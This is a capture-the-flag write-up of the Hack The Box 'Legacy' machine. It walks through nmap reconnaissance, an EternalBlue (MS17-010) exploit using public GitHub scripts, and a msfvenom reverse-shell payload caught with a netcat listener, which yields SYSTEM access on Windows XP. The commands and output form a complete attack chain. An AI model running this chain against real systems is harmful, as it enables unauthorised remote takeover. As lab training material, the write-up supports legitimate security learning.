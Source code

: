 ```yaml
---
title: Hack The Box - Legacy (Without Metasploit)
date: 2021-01-12 14:00:00 +0800
categories: [hackthebox]
tags: [windows, eternalblue]
---
```


![](/assets/images/legacy.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:13 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.010s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m51s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:87:21 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-10T12:13:27+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.34 seconds
```

# Enumeration

## Port 445 `Windows XP microsoft-ds`

If we use the `smb-vuln-*` scripts of `nmap`, we see that it has some vulnerabilities.

```bash
$ nmap -Pn -p 445 --script smb-vuln-* legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:17 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.013s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

# Exploitation

Out of these 2 vulnerabilties, I will be picking `CVE-2017-0143`, or better known as `EternalBlue`. `Metasploit` has modules that exploit this vulnerability but I will be using some scripts that I found on Github that are able to do the same job.

```bash
$ mkdir eternalblue
$ curl https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py > eternalblue/send_and_execute.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py > eternalblue/mysmb.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/checker.py > eternalblue/checker.py
```

Exploiting `EternalBlue` requires us to find an accessible named pipe, so lets run `checker.py`.

```bash
$ python eternalblue/checker.py legacy.htb
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

It seems there are 2 named pipes we can use and note that the machine is `32-bit`. Now we just need to prepare an executable that establishes a reverse shell connection back to us when executed. We can use msfvenom for this.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Now that is done, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then finally we can exploit the vulnerability with `send_and_execute.py` and specifying our executable and the name of the named pipe we want to use.

```bash
$ python eternalblue/send_and_execute.py legacy.htb reverse.exe 445 browser 
Trying to connect to legacy.htb:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8230d230
SESSION: 0xe16bcf58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe16beb90
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe16bec30
overwriting token UserAndGroups
Sending file GC726C.exe...
Opening SVCManager on legacy.htb.....
Creating service nrNL.....
Starting service nrNL.....
The NETBIOS connection with the remote host timed out.
Removing service nrNL.....
ServiceExec Error on: legacy.htb
nca_s_proto_error
Done
```

On our listener that we setup beforehand, we receive a connection.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Unfortunately there is no `whoami.exe` but we can run `SMB` server using `smbserver.py` from [`impacket`](https://github.com/SecureAuthCorp/impacket) and share a copy of `whoami.exe` which we can retrieve from `/usr/share/windows-resources/binaries/`.

```bash
$ cd /usr/share/windows-resources/binaries/
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then from the shell we got, we can do this to verify the current user.

```
C:\WINDOWS\system32> \\10.10.XX.XX\kali\whoami.exe
NT AUTHORITY\SYSTEM
```

Alright, we got `SYSTEM`!

# user.txt

The user flag is located at the home directory of `john`.

```
C:\Documents and Settings\john\Desktop> type user.txt
e69aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at the home directory of `Administrator`, as always.

```
C:\Documents and Settings\Administrator\Desktop> type root.txt
9934XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !
